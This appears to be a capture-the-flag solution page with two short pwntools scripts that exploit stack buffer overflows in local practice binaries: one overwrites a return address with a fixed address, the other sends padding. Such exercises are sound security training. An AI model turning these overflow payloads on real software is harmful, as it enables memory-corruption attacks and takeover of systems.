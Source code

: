 # ***BOF***

```
from pwn import *
io = process("./bof")
payload = b"A"*40
payload += p64(0x00000000004011b6)
io.sendline(payload)
io.interactive()
```
# ***check***

```
from pwn import*
io = process("./check")
payload = b"A"*21
io.sendline(payload)
io.interactive()
```

# ***

